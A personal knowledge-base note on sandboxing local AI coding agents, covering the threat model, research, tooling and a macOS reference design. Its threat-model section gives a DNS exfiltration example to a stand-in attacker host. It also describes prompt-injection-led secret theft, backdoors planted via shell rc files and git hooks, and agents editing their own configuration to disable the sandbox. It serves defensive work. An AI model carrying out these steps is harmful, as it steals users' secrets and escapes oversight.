

Created: 2026-11-18 19:15
#note

**Local Coding Agent Runtime Security and Sandboxing** addresses the architectural challenge of executing autonomous coding and workflow agents (such as Claude Code, Mario Zechner's Pi, OpenAI Codex CLI, Antigravity, or personal computer-use agents like **`n8n-io/nod`** and workflow engines like **n8n**) on a developer's personal workstation without exposing the host operating system to data exfiltration, credential theft, or destructive state modifications.

While [[AI Agent Security]] maps the broad taxonomy of agentic threats and the [[Agentic SDLC]] defines organizational verification pipelines, local runtime security focuses on **harness-agnostic process confinement, capability-based secret brokering, and deterministic policy enforcement** at the operating-system boundary. Following the philosophy of [[Build to Delete]], decoupling the security perimeter from any single vendor harness allows an engineer to swap the underlying agent (`claude`, `pi`, `codex`, or custom scripts) while preserving an identical, portable security posture.

## The Local Execution Threat Model

When an agent executes locally under a developer's standard POSIX user account, it inherits the user's **ambient authority**. Unlike remote SaaS chatbots, a local agent with shell (`bash`) and file-system access operates adjacent to high-value host assets:
- **Global Credential Stores**: SSH private keys (`~/.ssh`), cloud provider credentials (`~/.aws`, `~/.config/gcloud`), GitHub CLI tokens (`~/.config/gh`), GPG keyrings (`~/.gnupg`), browser session databases, and the macOS Keychain.
- **Project-Local Secrets**: Unencrypted `.env` files, database connection strings, and API tokens stored inside working directories.
- **Local Network & Loopback Services**: Unauthenticated services bound to `127.0.0.1` or Unix domain sockets (such as the Docker daemon `/var/run/docker.sock`, local databases, or workflow runners like n8n).

### Coupled Failure Modes: Why Filesystem and Network Isolation Must Coexist

As demonstrated in Anthropic's engineering analysis of local agent sandboxing, **filesystem isolation and network isolation cannot function independently**:
1. **Filesystem Isolation Without Network Isolation**: If an agent is restricted from writing outside the project directory but retains arbitrary outbound network access, an [[Prompt Injection|indirect prompt injection]] (triggered via an untrusted GitHub issue, web page, or dependency README) can read sensitive files inside the workspace (or permitted read paths) and exfiltrate them via HTTP POST, webhook requests, or DNS tunneling (`dig <hex-secret>.attacker.com`).
2. **Network Isolation Without Filesystem Isolation**: If outbound network access is blocked during the agent run but the agent can write to unscoped filesystem paths, a compromised agent can plant a persistent backdoor (such as modifying `~/.zshrc`, `~/.gitconfig`, or `.git/hooks/pre-commit`) that executes with full network access the next time the human developer opens a terminal.

### Intra-Workspace Escalation Paths

Granting an agent unrestricted read/write access to the current Git repository folder (`/path/to/repo`) is insufficient if critical control subdirectories within the workspace remain writable:
- **`.git/hooks/` and `.git/config`**: Modifying Git hooks or settings such as `core.fsmonitor`, `core.pager`, or `core.sshCommand` achieves arbitrary code execution outside the sandbox whenever the developer runs a standard `git` command.
- **Agent and IDE Configuration Directories (`.agents/`, `.claude/`, `.vscode/`, `.cursor/`)**: If an agent can modify its own harness configuration or `.vscode/tasks.json` (`runOn: folderOpen`), it can silently disable sandbox restrictions or whitelist destructive tools for subsequent turns.

## Foundational Research, Whitepapers, and Standards

Several academic papers, industry whitepapers, and security frameworks establish the theoretical and practical foundation for local agent confinement.

### 1. CaMeL: Defeating Prompt Injections by Design (Google DeepMind & ETH Zurich, 2025)
Debenedetti, Shumailov, Tramèr, et al. (presented at IEEE SaTML) demonstrate that prompt-level guardrails cannot reliably separate instructions from data inside a single autoregressive model. **CaMeL (Capabilities for Machine Learning)** wraps the LLM in a protective system layer:
- **Control Flow vs. Data Flow Separation**: A privileged LLM translates the trusted user query into a restricted, deterministic Python-like control-flow graph executed by a custom interpreter. Untrusted data retrieved from tools or files is processed by a quarantined LLM that can only populate data variables—it can never alter the control-flow graph or invoke new tools.
- **Capability Metadata**: Every data value carries explicit **capabilities** (provenance tags and security policies specifying which principals or tools are permitted to consume that data). Before any side-effecting tool call (such as sending an HTTP request or writing a file), the interpreter deterministically checks whether the data capabilities permit the flow, blocking unauthorized exfiltration on the **AgentDojo** benchmark.

### 2. IsolateGPT: Execution Isolation for LLM-Based Agent Systems (Wu et al., NDSS 2025)
Researchers from Washington University in St. Louis and the University of Washington observe that multi-tool LLM agents resemble early operating systems prior to process isolation, where all applications shared a single address space. **IsolateGPT** introduces an execution-isolation architecture that separates the central planner (Hub) from mutually distrusting tools and plugins (Spokes), enforcing strict inter-domain communication boundaries and per-tool permission manifests.

### 3. Anthropic Sandbox Runtime (`srt`) Architecture Whitepaper
Anthropic's engineering documentation for Claude Code and `@anthropic-ai/sandbox-runtime` defines a dual-boundary OS-level confinement model designed for developer workstations:
- **Zero-Overhead OS Primitives**: Uses macOS Seatbelt (`sandbox-exec`) and Linux `bubblewrap` (`bwrap`) rather than full virtual machines for sub-second CLI tool startup.
- **Proxy-Mediated Egress**: Blocks all direct network sockets inside the sandbox (`deny network*`), routing permitted traffic exclusively through a Unix domain socket connected to a host-side filtering proxy that enforces domain allowlists (`pypi.org`, `registry.npmjs.org`, `api.github.com`).

### 4. Perplexity Numbat & SPACE, Docker Sandboxes (`sbx`), NVIDIA OpenShell, and Stacklok Mecatl
- **Perplexity Numbat (Client Endpoint EDR & Forensics)**: Developed by Perplexity AI and contributed to the Open Secure AI Alliance (Apache 2.0), **Numbat** addresses "accidental meltdowns" and unauthorized behavior across heterogeneous local coding agents (Claude Code, Codex, and custom harnesses) on macOS, Linux, and Windows endpoints. It normalizes local agent hooks, on-disk session transcripts, and OpenTelemetry (`OTLP/HTTP`) streams into a unified schema, evaluates 50+ Common Expression Language (CEL) rules (with opt-in `enforce: true` blocking hooks), and supports retrospective forensic timeline reconstruction via `numbat scan`.
- **Docker Sandboxes (`docker sandbox` / `sbx` CLI)**: Purpose-built by Docker for running autonomous coding agents (Claude Code, Codex CLI, Gemini CLI, GitHub Copilot CLI, or custom harnesses like Pi) inside disposable **microVMs** rather than shared-kernel containers. Each `sbx` microVM boots a private Linux kernel and an isolated internal Docker engine, paired with a deny-by-default egress network proxy and **host-managed credential injection** (so raw API keys for Anthropic, OpenAI, or GitHub are injected at the proxy boundary and never reside inside the agent's VM memory or environment).
- **Perplexity SPACE & NVIDIA OpenShell (Sandboxed Execution Runtimes)**: For long-running agentic workflows and local terminal isolation, Perplexity's **SPACE** architecture and NVIDIA's **OpenShell** (alongside WebAssembly workflow sandboxing) provide private, isolated runtimes that prevent coding agents from accessing host AWS keys, arbitrary terminal sockets, or unmounted filesystems.
- **Stacklok Mecatl (`stacklok/mecatl`) & Docker Agent (`docker/cagent`)**: Open-source, provider-agnostic agent runtimes engineered for workloads on user-controlled infrastructure. `mecatl` exposes a permission-governed agent loop over gRPC/HTTP-SSE, while Docker's `cagent` lets developers define multi-agent teams declaratively in YAML, wire them to containerized MCP gateways (`docker/mcp-gateway`), and distribute agent harnesses as versioned OCI artifacts.

### 5. OWASP Agentic AI, Agentic Skills Top 10, & CoSAI MCP Frameworks
- **OWASP Top 10 for Agentic Applications (`ASI01–ASI10`)** and **OWASP Agentic Skills Top 10 v1.0**: Mandates runtime sandboxing for `ASI05` (Unexpected Code Execution), external policy validation for `ASI02` (Tool Misuse), least-privilege capability tokens for `ASI03` (Identity & Privilege Abuse / [[Excessive Agency]]), and security vetting of `.agents/` / `.skills/` definitions against ten skill-specific risk classes.
- **OWASP Practical Guide for Secure MCP Server Development & CoSAI WS4 (`cosai-oasis`)**: Defines secure design patterns for [[MCP Protocol]] servers, mitigating tool poisoning, over-scoped server credentials, and indirect prompt injection across MCP boundaries.
- **OWASP Top 10 for Non-Human Identities (NHI)**: Addresses secret sprawl, over-privileged Personal Access Tokens (PATs), and lack of revocation cascades when autonomous agents act on behalf of human engineers.

## Open-Source Tooling and Repository Landscape

To build a portable, harness-agnostic security environment, practitioners combine tools across six decoupled layers.

| Layer | Tool / Repository | Platform & Primitives | Primary Role |
| :--- | :--- | :--- | :--- |
| **1. OS Process & Network Sandbox** | [`anthropic-experimental/sandbox-runtime`](https://github.com/anthropic-experimental/sandbox-runtime) (`srt`) & **NVIDIA OpenShell** | macOS (`sandbox-exec`) & Linux (`bwrap`) + Local Proxy | Wraps *any* CLI agent (`srt "pi ..."`, `srt "claude ..."`, `srt "python ..."`) in declarative filesystem and domain-allowlist rules (`~/.srt-settings.json`). |
| **1. OS Process Wrapper** | [`akitaonrails/ai-jail`](https://github.com/akitaonrails/ai-jail) & [`navikt/cplt`](https://github.com/navikt/cplt) | macOS (`sandbox-exec`) & Linux (Landlock LSM, `seccomp-bpf`, `bwrap`) | Lightweight CLI wrappers confining arbitrary coding agents to the current working directory while masking `$HOME` dotfiles (`~/.ssh`, `~/.aws`). |
| **2. Destructive Command Guards** | [`Dicklesworthstone/destructive_command_guard`](https://github.com/Dicklesworthstone/destructive_command_guard) (`dcg`) & [`kenryu42/claude-code-safety-net`](https://github.com/kenryu42/claude-code-safety-net) | Pre-execution shell & Git hook interceptors | Deterministically blocks destructive Git (`git push --force`, `git reset --hard`) and shell (`rm -rf`) commands before agent execution. |
| **3. MicroVM / Virtual Computer Isolation** | **Docker Sandboxes (`sbx` CLI)**, [`apple/container`](https://github.com/apple/container), **OrbStack**, [`lima-vm/lima`](https://github.com/lima-vm/lima), & [`n8n-io/nod`](https://github.com/n8n-io/nod) | macOS (`Virtualization.framework`), Linux KVM, Private Docker-in-MicroVM, & Virtualized Desktop | Ephemeral microVMs with private kernels, host-proxied credential injection (`sbx`), and isolated virtual computers for coding agents, `n8n-io/nod`, or **n8n**. |
| **4. MCP Gateway, Harness & Secret Brokering** | [`docker/mcp-gateway`](https://github.com/docker/mcp-gateway), [`stacklok/toolhive`](https://github.com/stacklok/toolhive) (`thv`), [`docker/cagent`](https://github.com/docker/cagent), [`stacklok/mecatl`](https://github.com/stacklok/mecatl), & **1Password CLI (`op run`)** | Docker / Podman / K8s + Dynamic MCP + OIDC/OAuth + macOS Keychain | Runs verified [[MCP Protocol]] servers in isolated containers with profile-based routing, dynamic tool discovery, and out-of-band secret injection. |
| **4. Outbound PII / Secret Anonymization Proxy** | [`zeroc00I/LLM-anonymization`](https://github.com/zeroc00I/LLM-anonymization) | Local Reverse Proxy (Local Ollama LLM + Regex Safety Net) | Scrubs and anonymizes sensitive local data (IPs, hashes, credentials, hostnames, PII) in flight before prompts reach frontier LLM APIs. |
| **5. Skills, Rules & MCP Security Scanners** | [`AI-Coding-Shield/ai-coding-shield`](https://github.com/AI-Coding-Shield/ai-coding-shield), [`NVIDIA/SkillSpector`](https://github.com/NVIDIA/SkillSpector), & [`Tencent/AI-Infra-Guard`](https://github.com/tencent/AI-Infra-Guard) | Static & dynamic security auditing CLIs | Audits `.agents/`, `.skills/`, rules, and MCP configurations for malicious patterns, prompt injection vectors, and excessive permissions. |
| **6. Endpoint EDR, Egress Benchmarks & Traceability** | **Numbat** (Perplexity), **Agent Egress Bench** (PipeLab), [`langfuse/langfuse`](https://github.com/langfuse/langfuse), & [`open-policy-agent/opa`](https://github.com/open-policy-agent/opa) | Static Go Binary + CEL Engine + OTLP + 72-Case Egress Corpus | Cross-harness CEL policy enforcement and forensic scanning (`numbat scan`), OpenTelemetry run ledgers (`Langfuse`), and 72-test exfiltration verification (**Agent Egress Bench**). |

## Designing a Harness-Agnostic Local Agent Environment (macOS Reference Architecture)

When the goal is to run multiple coding agents (such as Antigravity, Claude Code, or Mario Zechner's **Pi**) alongside workflow automation tools (**n8n**) on a single personal macOS workstation, security must be enforced **outside the agent binary**. If you switch from Antigravity to `pi` tomorrow, the security wrapper, credential broker, and network proxy remain completely unchanged.

### Pillar 1: The Universal CLI Wrapper (`srt` + Protected Subpaths)
Instead of relying on each agent's proprietary permission toggles, wrap the invocation of any CLI coding agent in Anthropic's open-source `@anthropic-ai/sandbox-runtime` (`srt`) or a custom macOS `sandbox-exec` profile:
- **Default-Deny Read on Secrets**: Explicitly block read access (`denyRead`) to `~/.ssh`, `~/.aws`, `~/.config/gh`, `~/.gnupg`, `~/.netrc`, and project-level `.env` files.
- **Default-Deny Write Outside Workspace**: Allow writes (`allowWrite`) strictly to the current project directory `$PWD` and `/tmp`, while explicitly **carving out read-only protection (`denyWrite`) inside `$PWD`** for `.git/hooks`, `.git/config`, `.agents`, `.claude`, and `.pre-commit-config.yaml`.
- **Portability**: An alias or shell function (`safe-agent pi` or `srt --settings ~/.config/agent-sandbox.json pi`) applies the exact same kernel enforcement whether the binary is `pi`, `claude`, `pytest`, or a raw Python evaluation script.

### Pillar 2: Out-of-Band Secret Brokering (Zero Secrets in Agent Context)
An agent should never be able to run `cat .env` or `env` and see raw API keys:
- **Replace `.env` with `.env.tpl`**: Keep only secret templates in the repository (`LINEAR_API_KEY="op://Personal/Linear/api-key"`).
- **Brokered Execution via MCP or Proxy**: When the agent needs to interact with external services (such as Linear, GitHub, or a database), expose that capability through a containerized [[MCP Protocol]] server managed by **Stacklok ToolHive (`thv`)** or a host-side CLI wrapper. The MCP container holds a short-lived, narrowly scoped token injected by 1Password CLI (`op run`), while the coding agent only sends structured JSON-RPC tool calls and never sees the credential.
- **Dedicated Least-Privilege Git Identity**: Configure agent runs to use a fine-grained GitHub Personal Access Token or GitHub App installation token scoped strictly to feature branches of non-critical repositories, blocking direct pushes or force-pushes to `main`.

### Pillar 3: MicroVM Isolation for `n8n-io/nod`, `n8n`, and Verification via Agent Egress Bench
When testing personal computer-use agents like **`n8n-io/nod`** (*"open-source personal agent with its own computer"*), event-driven agent workflows in **n8n**, or untrusted third-party repositories, process-level Seatbelt sandboxing is complemented by a lightweight Linux microVM on Apple Silicon (via **OrbStack**, **Lima**, or Apple's `container` runtime):
- **Isolated Virtual Computer & Network Bridge**: Run `n8n-io/nod` and `n8n` inside a dedicated container/VM network with no access to the macOS host's `localhost` services (`host.docker.internal` disabled by default) and no mount of the macOS home directory, ensuring browser sessions and file operations remain strictly inside the agent's virtual computer.
- **Sandboxed Code Execution Nodes**: Configure n8n task runners in external/isolated mode with restricted environment variable access (`N8N_BLOCK_ENV_ACCESS_IN_NODE=true`), preventing JavaScript or Python code nodes inside an n8n workflow from inspecting the n8n host environment or credentials store.
- **Pre-Flight Skill Auditing & Egress Verification**: Scan `.agents/` and `.skills/` directories using **`AI-Coding-Shield`** or **`NVIDIA/SkillSpector`** before loading third-party skills, and validate the local sandbox + proxy configuration against PipeLab's **Agent Egress Bench** (72 test cases covering secret exfiltration, SSRF, prompt injection, and tool poisoning) and **Numbat**'s CEL rule suite.

## References

1. [CaMeL: Defeating Prompt Injections by Design — Debenedetti, Shumailov, Tramèr et al. (Google DeepMind & ETH Zurich, 2025)](https://arxiv.org/abs/2503.18813)
2. [IsolateGPT: An Execution Isolation Architecture for LLM-Based Agent Systems — Wu et al. (NDSS 2025)](https://arxiv.org/abs/2403.04960)
3. [Anthropic Sandbox Runtime (`@anthropic-ai/sandbox-runtime` / `srt`) — GitHub Repository](https://github.com/anthropic-experimental/sandbox-runtime)
4. [Claude Code Sandboxing: Filesystem and Network Isolation Architecture — Anthropic Engineering](https://docs.anthropic.com/en/docs/claude-code/security)
5. [Stacklok ToolHive (`thv`): Secure Containerized Manager and Gateway for MCP Servers — GitHub Repository](https://github.com/stacklok/toolhive)
6. [ai-jail: Sandbox Wrapper for AI Coding Agents (Landlock, Bubblewrap, Seatbelt) — GitHub Repository](https://github.com/akitaonrails/ai-jail)
7. [AgentDojo: A Dynamic Environment to Evaluate Prompt Injection Attacks and Defenses for LLM Agents — ETH Zurich SPY Lab](https://github.com/ethz-spylab/agentdojo)
8. [OWASP GenAI Security Project: Agentic AI Threats and Mitigations & Top 10 for Agentic Applications](https://genai.owasp.org/)
9. [Securing Agents Across Perplexity's Client Endpoints with Numbat — Perplexity AI Security Research](https://research.perplexity.ai/articles/securing-agents-across-perplexity%E2%80%99s-client-endpoints-with-numbat) — _Saved in Cybersecurity (`#llmsecurity`, `#harness`, `#ai-agents`, `#security`)_
10. [Making SPACE: Secure Runtimes for Long-Running Agents — Perplexity AI](https://www.perplexity.ai/hub/blog/making-space-secure-and-efficient-runtimes-for-long-running-agents) — _Saved in Cybersecurity (`#ai-agents`, `#cybersecurity`, `#llmsecurity`)_
11. [n8n-io/nod: Open-Source Personal Agent With Its Own Computer — n8n](https://github.com/n8n-io/nod) — _Saved in AI & LLMs (`#ai-agents`, `#github`)_
12. [stacklok/mecatl: Open-Source Provider-Agnostic Agent Harness With Durable State and Permissions](https://github.com/stacklok/mecatl) — _Saved in Cybersecurity (`#ai-agents`, `#harness`, `#llmsecurity`, `#cybersecurity`)_
13. [Dicklesworthstone/destructive_command_guard (`dcg`): Blocking Dangerous Git and Shell Commands From Being Executed by Agents](https://github.com/Dicklesworthstone/destructive_command_guard) — _Saved in Cybersecurity (`#llmsecurity`, `#ai-agents`, `#security`)_
14. [kenryu42/claude-code-safety-net: Catching Destructive Git and Filesystem Commands Before Execution](https://github.com/kenryu42/claude-code-safety-net) — _Saved in AI & LLMs (`#ai-agents`, `#security`)_
15. [zeroc00I/LLM-anonymization: Reverse Proxy Anonymizing Sensitive Local Data (IPs, Hashes, Credentials, PII) Before Reaching LLM APIs](https://github.com/zeroc00I/LLM-anonymization) — _Saved in Cybersecurity (`#llmsecurity`, `#pentesting`, `#security`)_
16. [AI-Coding-Shield/ai-coding-shield: Security Auditing Tool for AI Development Workflows, Rules, Skills, and MCPs](https://github.com/AI-Coding-Shield/ai-coding-shield) — _Saved in Cybersecurity (`#llmsecurity`, `#cybersecurity`, `#agents-security`)_
17. [NVIDIA/SkillSpector: Security Scanner for AI Agent Skills](https://github.com/NVIDIA/SkillSpector) — _Saved in Cybersecurity (`#llmsecurity`, `#repository`, `#ai-agents`, `#security`)_
18. [Tencent/AI-Infra-Guard: Full-Stack AI Red Teaming Platform (Agent Scan, Skills Scan, MCP Scan)](https://github.com/tencent/AI-Infra-Guard) — _Saved in Cybersecurity (`#agents-security`, `#cybersecurity`, `#llmsecurity`)_
19. [Agent Egress Security Test Corpus (Agent Egress Bench) — PipeLab](https://pipelab.org/blog/agent-egress-bench-benchmark-corpus/) — _Saved in Cybersecurity (`#llmsecurity`)_
20. [Can AI Agents Escape Their Sandboxes? A Benchmark for Safely Measuring Container Breakout Capabilities — UK AISI](https://www.aisi.gov.uk/blog/can-ai-agents-escape-their-sandboxes-a-benchmark-for-safely-measuring-container-breakout-capabilities) — _Saved in AI & LLMs (`#ai-agents`, `#security`)_
21. [A Practical Guide for Secure MCP Server Development — OWASP GenAI Security Project](https://genai.owasp.org/resource/a-practical-guide-for-secure-mcp-server-development/) — _Saved in AI & LLMs (`#mcp`, `#ai-agents`, `#security`)_
22. [CoSAI Workstream 4: Secure Design Patterns for Agentic Systems (`model-context-protocol-security.md`)](https://github.com/cosai-oasis/ws4-secure-design-agentic-systems/blob/mcp/model-context-protocol-security.md) — _Saved in Cybersecurity (`#mcp`, `#llmsecurity`, `#security`)_
23. [trailofbits/claude-code-config: Opinionated Security Defaults and Workflows for Coding Agents — Trail of Bits](https://github.com/trailofbits/claude-code-config) — _Saved in AI & LLMs (`#ai-agents`, `#security`)_
24. [CISO's Guide to Agentic AI — Anthropic](https://claude.com/blog/ciso-guide-to-agentic-ai) — _Saved in AI & LLMs (`#ai-agents`, `#security`)_
25. [seojoonkim/prompt-guard: Advanced Prompt Injection Defense System for AI Agents](https://github.com/seojoonkim/prompt-guard) — _Saved in Cybersecurity (`#llmsecurity`, `#security`)_
26. [Docker Sandboxes (`sbx`), MCP Catalog & Gateway (`docker/mcp-gateway`), and Docker Agent (`docker/cagent`) — Docker Docs](https://docs.docker.com/ai/)

## Related Topics

[[Agentic SDLC]], [[AI Agent Security]], [[Excessive Agency]], [[Prompt Injection]], [[Prompt Injection defense measures]], [[Harness Engineering]], [[Build to Delete]], [[MCP Protocol]], [[Secure SDLC]], [[Supply Chain Security]], [[Langfuse]], [[LLM Observability]]

#### Tags
#aisecurity #agentic_ai #sandboxing #coding_agents #mcp #cybersecurity #devsecops #owasp #harness_engineering
